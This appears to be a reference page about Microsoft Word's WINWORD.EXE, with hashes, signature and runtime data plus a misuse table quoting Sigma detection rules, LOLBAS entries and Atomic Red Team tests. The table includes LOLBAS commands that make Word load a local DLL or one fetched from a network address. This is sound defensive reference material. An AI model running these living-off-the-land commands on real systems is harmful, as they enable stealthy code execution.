


---
title: WINWORD.EXE | Microsoft Word
excerpt: What is WINWORD.EXE?
---

# WINWORD.EXE 

* File Path: `C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE`
* Description: Microsoft Word

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `10B777CD1CC2D94C60707FB53B29BB7D`
SHA1 | `2FA389B2CFBF11AA5F08609D019F1FD8B1233065`
SHA256 | `75D216CDE89D62AE1F9A8137CE7EE32FEC7A1DA96826BE471E664223651720BC`
SHA384 | `3E5C6297573C09860420D92E4C280EAF7E00C2A268D7EFDBA697CEFDEF5F20424BCFD9DE3B531C5B243A01B6E4CD7BFB`
SHA512 | `7A1C1CC0B331F4C9D1F751DF4C9A4D09C495063E7A6574601CA1340A9A883E1158F6C17200546995D2BE5CA970F656E6B86CD2773EE25F71D923AE6C0FBE28A0`
SSDEEP | `3072:UcQsVK2OKsuWoZmp4sVK2OKsuWoZEckAQckAIDpAPfKrss1yyKrss1yAZDvYbND5:1ErtkAzkAZqrEdrEAZUdwFjNNrFs`
IMP | `E35903DD5F449996A8A560239CCEDAFA`
PESHA1 | `A05CD068E145FA513273F2D3848EC1B00067E231`
PE256 | `876102EBE47D74EB60C86F424D2077D7B53D2A62FDBE4D7F84F77CAA7E7C46C2`

## Runtime Data

### Window Title:
Microsoft Word

### Open Handles:

Path | Type
-- | --
(R--)   C:\ProgramData\Microsoft\Office\ClickToRunPackageLocker | File
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\SystemResources\imageres.dll.mun | File
(R-D)   C:\Windows\SysWOW64\en-US\user32.dll.mui | File
(RW-)   C:\Users\user\Documents | File
(RW-)   C:\Windows | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.19041.488_none_11b1e5df2ffd8627 | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.508_none_429cdbca8a8ffa94 | File
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\Sessions\1\Windows\Theme64749523 | Section
\Windows\Theme1120315852 | Section

### Loaded Modules:

Path |
-- |
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\wow64.dll |
C:\Windows\System32\wow64cpu.dll |
C:\Windows\System32\wow64win.dll |

## Signature

* Status: Signature verified.
* Serial: `33000002CE7C9ACE7D905ED2B70000000002CE`
* Thumbprint: `B10607FB914700B40F794610850C1DE0A21566C1`
* Issuer: CN=Microsoft Code Signing PCA 2010, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: WinWord.exe
* Product Name: Microsoft Office
* Company Name: Microsoft Corporation
* File Version: 16.0.12527.20482
* Product Version: 16.0.12527.20482
* Language: Language Neutral
* Legal Copyright: 
* Machine Type: 32-bit

## File Scan

* VirusTotal Detections: 0/71
* VirusTotal Link: https://www.virustotal.com/gui/file/75d216cde89d62ae1f9a8137ce7ee32fec7a1da96826be471e664223651720bc/detection/

## File Similarity (ssdeep match)

File | Score
-- | --
[C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.EXE](WORDICON.EXE-DA343ACA75053CCF8FB08E681C427938.md) | 35
[C:\Program Files (x86)\Microsoft Office\root\vfs\Windows\Installer\{90160000-000F-0000-0000-0000000FF1CE}\wordicon.exe](wordicon.exe-5281F60B65A4B9A214374314D83BE613.md) | 33

## Possible Misuse

*The following table contains possible examples of `WINWORD.EXE` being misused. While `WINWORD.EXE` is **not** inherently malicious, its legitimate functionality can be abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_assembly_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_assembly_dll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_clr_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_clr_dll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_gac_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_gac_dll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dsparse_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dsparse_dll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_kerberos_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_kerberos_dll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_vbadll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_vbadll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_wmidll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_wmidll_load.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_crime_maze_ransomware.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_crime_maze_ransomware.yml) | `- '\WINWORD.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2015_1641.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2015_1641.yml) | `description: Detects Winword starting uncommon sub process MicroScMgmt.exe as used in exploits for CVE-2015-1641` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2015_1641.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2015_1641.yml) | `ParentImage: '*\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2017_0261.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2017_0261.yml) | `description: Detects Winword starting uncommon sub process FLTLDR.exe as used in exploits for CVE-2017-0261 and CVE-2017-0262` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2017_0261.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2017_0261.yml) | `ParentImage: '*\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2017_8759.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2017_8759.yml) | `description: Detects Winword starting uncommon sub process csc.exe as used in exploits for CVE-2017-8759` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_exploit_cve_2017_8759.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2017_8759.yml) | `ParentImage: '*\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '*\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_spawn_exe_from_users_directory.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_spawn_exe_from_users_directory.yml) | `- '*\WINWORD.EXE'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msoffice.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msoffice.yml) | `- '\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_powershell_parent_process.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_powershell_parent_process.yml) | `- '\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cactustorch.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cactustorch.yml) | `- '*\winword.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherMSBinaries/Winword.yml) | `Name: winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherMSBinaries/Winword.yml) | `- Command: winword.exe /l dllfile.dll` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherMSBinaries/Winword.yml) | `Usecase: Execute a locally stored DLL using winword.exe.` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherMSBinaries/Winword.yml) | `- Path: c:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `Name: Winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Command: winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office16\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office\Office16\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office15\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office\Office15\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office14\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office\Office14\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office12\winword.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Winword.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Winword.yml) | `- Path: C:\Program Files\Microsoft Office\Office12\winword.exe` | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1053.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1055.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1055/T1055.md) | Stop-Process -Name "winword" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1055.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1055.012/T1055.012.md) | This module executes calc.exe from within the WINWORD.EXE process | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1055.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1055.012/T1055.012.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.005/T1059.005.md) | You can validate this by opening WinWord -> File -> Account -> About Word | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.005/T1059.005.md) | Stop-Process -Name "winword" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.005/T1059.005.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1070.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1070.001/T1070.001.md) | Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1070.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1070.001/T1070.001.md) | Stop-Process -Name "winword" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1115.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1115/T1115.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | Stop-Process -Name "winword" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1564.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1564/T1564.md) | Stop-Process -Name "winword" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1566.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1566.001/T1566.001.md) | $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)

MIT License. Copyright (c) 2020 Strontic.

